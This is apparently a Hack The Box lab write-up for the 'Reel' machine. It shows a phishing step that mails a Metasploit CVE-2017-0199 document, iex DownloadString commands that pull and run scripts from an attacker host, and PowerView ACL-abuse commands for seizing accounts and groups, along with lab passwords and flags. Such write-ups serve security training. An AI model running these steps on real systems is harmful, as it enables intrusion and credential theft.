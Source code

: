 ```yaml
---
layout: post
title: Hack the Box - Reel
author: Kolja
categories: [HtB]
tags: [ad]
---
```



This box is part of the Active Directory 101 path, which is why I took a look at it.

## Enumeration
```
sudo nmap -sS -p- 10.10.10.77
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-24 16:24 EDT
Nmap scan report for 10.10.10.77
Host is up (0.036s latency).                                                 
Not shown: 65531 filtered tcp ports (no-response)                            
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
135/tcp open  msrpc

Nmap done: 1 IP address (1 host up) scanned in 164.70 seconds
```

The FTP share has multiple files. One of them prompts us to send `.rtf` files. Another gives details on applocker rules. 

We can find a mail address using `exiftool`:
```
exiftool Windows\ Event\ Forwarding.docx 
[...]
Creator                         : nico@megabank.com
[...]
```

## Foothold
When searching for `rtf` and remote code execution one of the first things, that comes up is CVE-2017-0199 which is a Microsoft Word vulnerability, that existed around the time the box was released. There is an exploit in `metasploit` from around that time:
```
exploit/windows/fileformat/office_word_hta
```
This gives us a file, which we then can send via email to the box:

```
sudo sendEmail -t nico@megabank.com -f techsupport@megabank.com -s 10.10.10.77 -u "Important Stuff" -a /root/.msf4/local/msf.doc
```
I had to play around with the ports a bit, but port 80 and port 443 seem to be reachable by the machine and this gave me a shell.

There is the flag as well as credentials on our Desktop:
```
C:\Users\nico\Desktop>type user.txt                                                                          
fa363aebcfa2c29897a69af385fee971
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
We can get credentials from this:
```
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

We can use the user tom to log in over ssh.

## Privilege escalation
We can run PrivescCheck, which does give us the credentials for the `nico` user:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/PrivescCheck.ps1')                             
PS C:\Users\tom> Invoke-PrivescCheck
[...]
+------+------------------------------------------------+------+                                                                
| TEST | CREDS > WinLogon                               | VULN |                                                                
+------+------------------------------------------------+------+                                                                
| DESC | Parse the Winlogon registry keys and check whether    |                                                                
|      | they contain any clear-text password. Entries that    |                                                                
|      | have an empty password field are filtered out.        |                                                                
+------+-------------------------------------------------------+                                                                
[*] Found 1 result(s).                                                                                                          


Domain   : HTB                                                                                                                  
Username : nico                                                                                                                 
Password : 4dri@na2017!** 
```

There were some files from an AD audit left on the machine. However, I found it easier to collect new data for BloodHound. For this I used the PowerShell collector:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/SharpHound.ps1')                             
PS C:\Users\tom> Invoke-BloodHound -CollectionMethod All
```

There were several interesting edges in the bloodhound data. Our user is a member of the `Print Operators`-Group, which is why we can log in on the DC. As we are in this group we should be able to load a vulnerable driver and escalate our privileges this way. However, as we have some AppLocker rules and as this is an Active Directory box this is probably not the intended path.

![Attack path one](htb_reel_attack_path_one.png)


Our user also has `WriteOwner`-Permissions on the `claire` user:

![Attack path two](htb_reel_attack_path_two.png)

The `claire` user has `GenericWrite` and `WriteDacl`-Permissions on a `backups_admins`-Group:
![Attack path three](htb_reel_attack_path_three.png)
Being a member of this group might allow us to back up for example the `NTDS.DIT` file. So my initial assumption is, that this might be the intended path here. The `nico` user has very similar properties to the `tom` user, however, as we have credentials for `tom` it seems easier to use the `tom` user.

Setting ourselves as the owner of `claire`:
```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```
Giving us `GenericAll` on `claire`:
```
Add-DomainObjectAcl -TargetIdentity claire -Rights All -PrincipalIdentity tom
```
Change password of `claire`:
```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

Creating a credentials object for `claire` to continue:
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $SecPassword)
```

Giving us the right to add members:
```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "BACKUP_ADMINS" -Rights WriteMembers -PrincipalIdentity claire
```
Adding `tom` as a group member:

```
Add-DomainGroupMember -Identity 'BACKUP_ADMINS' -Members 'tom' -Credential $Cred
```

Verifying, that this worked:
```
Get-DomainGroupMember -Identity 'BACKUP_ADMINS'
```

The `icacls` tool tells us, that we have access to the home folder of `Administrator` if we are a member of the `Backup_Admins`-Group. On the desktop of this user we find a script with the password for the user in it:
```
tom@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1                                                    
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"
[...]
```
We can then log in over ssh and get the root flag:
```
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator>cd Desktop                                                                            

administrator@REEL C:\Users\Administrator\Desktop>type root.txt                                                                 
1018a0331e686176ff4577c728eaf32a
```
